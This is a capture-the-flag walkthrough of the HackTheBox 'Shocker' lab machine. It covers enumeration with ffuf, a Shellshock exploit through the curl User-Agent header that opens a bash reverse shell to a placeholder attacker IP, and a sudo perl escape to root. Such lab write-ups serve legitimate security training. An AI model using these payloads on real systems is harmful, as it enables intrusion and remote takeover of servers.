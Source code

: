 # HackTheBox - Shocker

## Enumeration

I started with a simple portscan.

![Screenshot0](./screenshots/0.png)

We see an open web server and a SSH server on port 2222.

I started to take a closer look at the web server.

But except a funny creature there was nothing to see.

![Screenshot1](./screenshots/1.png)

The name of the box already gave me an idea that we were dealing with a __Shellshock__ vulnerability.

Nevertheless, I ended up in long fuzzing from the web-root directory.

FFUF did not list `cgi-bin`.

By manual testing I saw later that this directory does exist.

`ffuf -w raft-medium-words.txt -u http://<IP>/cgi-bin/FUZZ -ic -e .pl,.cgi,.sh,.py,.php`

![Screenshot2](./screenshots/2.png)

Now I finally found something.

## User

I searched for a POC using curl for Shellshock and got a positive result right away.

![Screenshot3](./screenshots/3.png)

I started a listener with netcat and set the following command for the reverse shell:

`curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4242 0>&1" http://<MACHINE_IP>/cgi-bin/user.sh`

I was logged in as user `shelly` and got the user flag.

![Screenshot4](./screenshots/4.png)

## Root

The privelege escalation was done quickly because the first thing I did was `sudo -l` and I saw that we can run `perl` without specifying the password as root.

![Screenshot5](./screenshots/5.png)

After a look at [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to perl I knew what I had to do to get the user root.

`sudo /usr/bin/perl -e 'exec "/bin/sh";'`

I was now user `root` and got the flag.

![Screenshot6](./screenshots/6.png)



